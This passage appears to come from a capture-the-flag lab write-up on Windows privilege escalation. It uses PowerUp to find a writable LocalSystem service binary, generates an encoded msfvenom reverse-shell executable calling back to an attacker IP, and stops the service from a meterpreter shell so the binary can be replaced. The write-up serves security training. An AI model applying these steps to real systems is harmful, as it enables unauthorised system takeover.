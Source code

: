Now we can run the command. 
```
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

We find one service with the CanRestart option set to true, AdvancedSystemCareService9. This opens it up to a unopened service path vulnerability. The CanRestart option allows us to restard the service, but more importantly, the directory to the service is also writable. This means we can replace the actual application with our malicious one and restard it to execute. 

First, we need to generate a windows reverse shell executable using msfvenom.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.2.11.19 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCservice.exe
```

Now we can upload the binary to replace the legitimate one, followed by restarting the program to gain root. First we need to cd to the directory that holds the executable we will be replacing.
```
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

Unfortunately, when we try to upload the payload, the it errors out by prompting us that the service is still running. We can stop the service in a normal shell with the command below.
```
meterpreter > shell
Process 1496 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
